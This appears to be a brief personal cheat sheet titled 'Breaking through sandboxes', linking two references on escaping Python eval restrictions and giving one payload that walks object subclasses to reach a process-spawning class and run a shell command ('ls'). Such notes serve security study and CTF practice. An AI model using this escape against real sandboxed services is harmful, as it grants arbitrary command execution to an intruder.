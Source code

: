 # Breaking through sandboxes

## Python

https://netsec.expert/posts/breaking-python3-eval-protections/

```shell
print(().__class__.__bases__[0].__subclasses__()[317]("ls",shell=True,stdout=-1).communicate())
```
https://book.hacktricks.wiki/en/generic-methodologies-and-resources/python/bypass-python-sandboxes/index.html